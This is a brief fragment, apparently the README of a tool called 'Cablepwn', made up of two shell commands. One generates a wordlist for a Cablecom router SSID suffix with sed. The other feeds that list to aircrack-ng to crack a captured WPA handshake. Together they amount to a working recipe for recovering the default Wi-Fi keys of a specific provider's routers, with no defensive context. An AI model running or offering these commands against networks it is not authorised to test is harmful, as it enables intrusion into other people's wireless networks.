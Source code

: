 # Cablepwn

sed 's/XXXX/2FC8/g' CablecomXXXX.lst > Cablecom2FC8.lst
aircrack-ng Cablecom2FC8-01.cap -w Cablecom2FC8.lst

